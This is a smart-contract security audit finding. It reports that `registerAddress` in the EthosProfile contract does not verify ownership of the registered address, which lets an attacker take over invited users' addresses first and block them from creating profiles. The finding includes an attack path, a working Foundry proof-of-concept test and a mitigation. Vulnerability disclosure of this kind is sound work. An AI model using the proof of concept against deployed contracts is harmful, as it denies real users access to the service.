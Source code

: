 Soaring Orchid Kangaroo

High

# Prevent other users from creating profiles by preemptively pre-empting the addresses of users invited by `registerAddress`

### Summary

It appears that the off-chain functionality to retrieve the `signature` currently used for `registerAddress` is not implemented yet. However, I have reported this as a vulnerability because an important verification process is missing in the smart contract.
```solidity
  function registerAddress(
    address addressStr,
    uint256 profileId,
    uint256 randValue,
    bytes calldata signature
```
https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosProfile.sol

Once an address is registered with `registerAddress`, it cannot be removed, and there may be a problem because there is no signature verification process within the contract to verify that the caller is the owner of `addressStr`.

The address registered with `registerAddress` is registered to `profileIdByAddress`, and it becomes impossible to create a profile with that address. Because in `_createProfile`, the address registered to `profileIdByAddress` is reverted because it already exists.
```solidity
  function profileStatusByAddress(
    address addressStr
  ) public view returns (bool verified, bool archived, bool mock, uint256 profileId) {
    profileId = profileIdByAddress[addressStr];
  ...
  function _createProfile(address user) internal returns (uint256 profileId) {
    (bool verified, , bool mock, uint256 existingProfileId) = profileStatusByAddress(user);
    if (verified) {
      revert ProfileExists(existingProfileId);
```
https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosProfile.sol#L184

If you can obtain the `expectedSigner` signature from someone else's address off-chain, you can prevent that user from creating a profile by randomly registering invited users.

### Root Cause

Missing the step to verify owner of addressStr in `registerAddress`

### Internal pre-conditions

### External pre-conditions

_No response_

### Attack Path

1. Invite a specific address with `inviteAddress` from the admin account.
2. Register the account you invited with `registerAddress` from another account.
3. Create a profile with `createProfile` using the invited account.
4. Make sure it is reverted with `ProfileExists`.

### Impact

An attacker can prevent others from creating profiles by preempting the invitee's address as the `registerAddress`.

### PoC

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity =0.8.26;

import {Test, console} from "forge-std/Test.sol";
import {EthosProfile} from "../src/EthosProfile.sol";
import {ERC1967Proxy} from "@openzeppelin/contracts/proxy/ERC1967/ERC1967Proxy.sol";
import {SignatureVerifier} from "../src/utils/SignatureVerifier.sol";
import "@openzeppelin/contracts/utils/cryptography/ECDSA.sol";



contract EthosProfileTest is Test {
    EthosProfile public profile;
    address expectedSigner;
    uint256 expectedPk;

    function setUp() public {
        SignatureVerifier signatureVerifier = new SignatureVerifier();

        (expectedSigner, expectedPk) = makeAddrAndKey("expectedSigner");

        bytes memory initData = abi.encodeWithSelector(
            EthosProfile.initialize.selector,
            address(this),
            address(this), 
            expectedSigner,
            address(signatureVerifier),
            address(this)
        );
        ERC1967Proxy proxy = new ERC1967Proxy(
            address(new EthosProfile()),
            initData
        );

        profile = EthosProfile(address(proxy));
        profile.setMaxInvites(20);
    }

    function test_Invites() public {
        profile.inviteAddress(address(100));
        profile.inviteAddress(address(200));

        vm.startPrank(address(100));
        bytes32 digest = keccak256(abi.encodePacked(address(200), uint256(1), uint256(0)));
        bytes32 digest2 = keccak256(abi.encodePacked("\x19Ethereum Signed Message:\n32", digest));
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(expectedPk, digest2);
        bytes memory signature = abi.encodePacked(r, s, v);

        profile.createProfile(1);
        // register address(200)
        profile.registerAddress(address(200), uint256(1), uint256(0), signature);
        vm.stopPrank();

        vm.startPrank(address(200));
        // revert with `ProfileExists`
        profile.createProfile(1);
        vm.stopPrank();
    }
}

```

### Mitigation

It is need to input the signature value for `addressStr` and verify it within the smart contract.